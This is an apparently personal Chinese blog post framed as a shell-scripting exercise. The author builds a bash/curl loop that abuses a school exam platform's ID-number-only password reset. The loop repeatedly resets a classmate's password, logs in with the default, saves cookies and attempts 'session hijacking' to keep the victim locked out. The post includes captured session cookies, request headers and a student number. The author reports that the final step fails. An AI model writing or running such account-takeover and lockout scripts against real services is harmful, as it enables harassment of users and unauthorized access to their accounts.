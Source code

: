 ```yaml
---
title: 简单的Shell脚本实战
date: 2021-12-21 20:57:25
tags: 
- Linux
- web
---
```


### 引言

前几天复习C语言，摸鱼了几天之后准备去学校的考试平台上做个题练练手，结果太久没登忘记密码了😓结果发现**重置密码只需身份证号**，而身份证号这种信息在同学之间几乎完全可见，忍不住想到有意思的事。

不过有个问题，重置之后受害者发现登陆不了，只需要重新重置一次不就可以了？那重置似乎也没什么意义……又想了想，如果我能写个脚本，不断重置密码，在受害者重置完到输入密码登录的间隔中又重置了一次密码，岂不就可以做到始终让受害者卡在登录和重置页面了吗？听起来有意思，刚好最近我又在鼓捣**[curl](https://www.ruanyifeng.com/blog/2019/09/curl-reference.html)** ，对用shell发起请求比较熟悉，就着手试着写了下。

注：因为我在楼下的二手书店里淘来的Linux教程写shell编程用的bash，以下基于**bash语法**。

### 简单的实现

如上所述，不断发起请求需要用到循环，就去查了下shell脚本中循环的语法：

```bash
for((i=0;;i++))
do
    echo "hello world!"
    pwd
done
```

因为for循环的第二个遍历条件为空，故如上的脚本将**无限循环**输出hello world和当前目录(pwd)。

下一步就是如何发起修改密码的请求，当然是用curl

```bash
curl "http://exam.mit.edu.cn/index.php?r=not%2Fresetpasswd"
```

修改密码的数据请求是用的是post，burp抓包看下请求头发现学号和身份证号参数名分别是StuNum和IC，构造curl的post请求:

```bash
curl -X POST --data "StuNum=123456&IC=123456789546821350" "http://exam.mit.edu.cn/index.php?r=not%2Fresetpasswd"
```

为了方便用，再做个接口:

```bash
echo "plz input the student number:"
read stunum
echo "plz input the ic:"
read ic
curl -X POST --data "StuNum=${stunum}&IC=${ic}" "http://exam.mit.edu.cn/index.php?r=not%2Fresetpasswd"
```

*注:read传参变量需要用**${}***

再加上循环就能完成无限循环发起请求修改密码，但试了下才想起来还是不行，因为重置密码只能重置成默认密码也就是学号，受害者只有第一次会发现登不上，第二次虽然重置但还是默认，所以完全没影响……

不过，如果能修改密码后再登录到账号内，用正常的修改密码操作完成修改密码，岂不就可以实现之前的思路了？

毫无疑问，这次的关键在**cookie**：*账号内*修改密码的页面多半是用cookie完成身份验证的，而这个cookie就是在*登录前*修改密码页面的响应头中（在正常的重置密码时，会在修改密码页面提交post传参，然后将相应头的cookie用作跳转的cookie重新请求原页面）

curl有类似操作的命令参数:

```bash
curl -c cookie.txt "url1"
curl -b cookie.txt "url2"
```

如上-c将请求url1的cookie保存至cookie.txt，然后-b用cookie.txt作cookie请求url2.

我实际操作了下，发现登录页面始终返回402 refused,想了想可能是DNS解析的问题，改成IP之后可以了，最终的脚本如下:

```bash
#!/bin/bash
#this shell script is wrrted by Yo1uk0
 
green(){
    echo -e "\033[32m\033[01m$1\033[0m"
}
red(){
    echo -e "\033[31m\033[01m$1\033[0m"
}
 
echo "************************************"
red "            Welcome!"
echo "************************************"
green "请输入学号捏:"
read stunum 
green "请输入身份证号捏:"
read ic
red "秋豆麻袋捏^_^"
 
for((i=0;;i++))
do 
    sleep 10;
    #传参引用需要加${}
    curl -X POST --data "StuNum=${stunum}&IC=${ic}" "http://exam.cuit.edu.cn/index.php?r=not%2Fresetpasswd"
    green "修改密码完成捏！"
 
    #下面url无法直接用域名访问，故用ip
 
    curl -c cookie114514 -d "StuNumber=${stunum}&password=${stunum}" http://222.18.158.42/index.php?r=front%2Fsite%2Flogin  
    green "获取cookie完成捏！"
 
    curl -b cookie114514 "http://exam.cuit.edu.cn/index.php?r=front%2Fsite%2Findex"
    green "会话劫持完成捏！登录成功！"
    echo -e "\n"
done
red "susess!"
```

但我实际测试了下发现可以完成密码修改和获取cookie，但无法成功**登录**，看了下生成的cookie文件:

```http
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.
#HttpOnly_222.18.158.42 FALSE   /       FALSE   1639852412      _identity       216677e5730f942bd87c1fa13ad6b5b71bc63a118fac7db5ea582088e3d56a27a%3A2%3A%7Bi%3A0%3Bs%3A9%3A%22_identity%22%3Biwdaawdawdawd%3A1%3Bs%3dawadwawd1122179%22%2C%dwaawd9%22%2C18000%5D%22%3B%7D
#HttpOnly_222.18.158.42 FALSE   /       FALSE   0       PHPSESSID       64lflvvcue2o1dawadf6i2tpt15
{1}
```

本以为是cookie未能正常发送，想用[sed命令](http://c.biancheng.net/view/4028.html)和[正则表达式](https://blog.csdn.net/gua___gua/article/details/49304699)修改匹配的文本，但似乎没这么简单。抓包看下登录页面生成cookie的**响应头**:

```http
HTTP/1.1 200 OK
Date: Tue, 21 Dec 2021 16:25:56 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: PHPSESSID=9mc7imdr5femaapggh6cl0p660; path=/; HttpOnly
Set-Cookie: _identity=216677e5730f942bd87c1fa13ad6b5b71bc63a118fac7db5ea582088e3d56a27a%3A2%3A%7Bi%3A0%3Bs%3A9%3A%22_identity%22%3Bi%3A1%3Bs%3A33%3A%22%5B%222021122179%22%2C%222021122179%22%2C18000%5D%22%3B%7D; expires=Tue, 21-Dec-2021 21:25:56 GMT; Max-Age=18000; path=/; httponly
Content-Length: 44
Connection: close
Content-Type: text/html; charset=UTF-8
 
{"error":0,"msg":"\u767b\u5f55\u6210\u529f"}

```

很明显set-cookie生成的键值对与密码和学号有关，PHPSESSID为随机值。

正常**登录后**修改密码的**请求头**：

```http
POST /index.php?r=front%2Fsite%2Fchange HTTP/1.1
Host: exam.mit.edu.cn
Content-Length: 60
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://exam.mit.edu.cn
Referer: http://exam.mit.edu.cn/index.php?r=front%2Fsite%2Fchange-password
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ja;q=0.8,zh-TW;q=0.7,en;q=0.6,eu;q=0.5
Cookie: UM_distinctid=17d3e299b16207-07b379d58115b1-57b1a33-144000-17d3e299b171050; PHPSESSID=ul2bcepjn984q5o0gqfrr94qp5; _identity=216677e5730f942bd87c1fa13ad6b5b71bcwadwaAdawfaef63a118fac7db5ea582088e3d56a27a%3A2%3A%7Bi%3A0%3Bs%3A9%3A%22_identity%22%3Bi%3A33%3Awafd%22%5B%222021122179%2C%222021122179%22%2C18000%5D%22%3B%7D
Connection: close
 
StuNumber=20211221&oldpassword=2021122&newpassword=2021

```

看起来Referer和Origin也是**[前后端鉴权](https://zhuanlan.zhihu.com/p/446379414)**的重要部分，但终归是静态的，很容易就修改，真正麻烦的还是有失效时限的token。我在burp的repeater模块试了下，即便是完全相同的请求头而且返回200也无法二次修改密码，而且一段时间后会直接302.

回头想想，其实这种脚本的关键在于模拟用户在浏览器正常发起请求的过程，完成正常的鉴权来完成传参。

现在的问题是如何绕过[鉴权](https://zhuanlan.zhihu.com/p/353692010)，如果不考虑token，正常的cookie与session交互流程如下:
[![img](https://view.moezx.cc/images/2018/05/13/image-404.png)](https://kusarinoshojo.space/wp-content/uploads/2021/12/wp_editor_md_ea1c5a7bfb5462952d50ca553a02745a.jpg)

**刚才抓包是对服务端的请求，因此在数据库校验成功后服务器存session并在前端set-cookie，即刚才生成在响应头里的cookie(其中含有sessionid)，然后请求登录页面跳转再验证，随后返回登陆后的首页内容。**

这样想似乎思路还是没问题，在curl里再加个参数试试:

```bash
curl -v -H "Origin: http://exam.cuit.edu.cn" -H "http://exam.cuit.edu.cn/index.php?r=front%2Fsite%2Fchange-password" -d "StuNumber=2021122179&oldpassword=2021122179&newpassword=2021122" --cookie "UM_distinctid=17d3e299b16207-07b379d58115b1-57b1a33-144000-17d3e299b171050; PHPSESSID=ul2bcepjn984q5o0gqfrr94qp5; _identity=216677e5730f942bd87c1fa13ad6b5b71bc63a118fac7db5ea582088e3d56a27a%3A2%3A%7Bi%3A0%3Bs%3A9%3A%22_identity%22%3Bi%3A1%3Bs%3A33%3A%22%5B%222021122179%22%2C%222021122179%22%2C18000%5D%22%3B%7D" http://exam.mit.edu.cn/index.php?r=front%2Fsite%2Fchange
```

还是302，难搞，卡在这里搞不懂了，下次试试python的requests库能不能模拟请求。
